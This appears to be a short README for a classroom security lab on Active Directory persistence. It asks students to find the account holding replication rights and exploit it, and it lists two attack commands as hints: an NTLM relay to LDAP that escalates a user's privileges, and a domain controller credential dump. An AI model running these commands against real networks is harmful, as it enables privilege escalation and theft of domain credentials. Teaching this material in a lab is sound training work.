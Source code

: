 # Lab4_Persistence
- Who has replication right?
- Find its vulnerability and expolit it
- Some command you may need:
    - sudo python ntlmrelayx.py -t ldap://10.0.0.4 --escalate-user \<account\>
    - sudo python secretsdump.py hackcollege/\<account\>:\<passwd\>@10.0.0.4 -just-dc
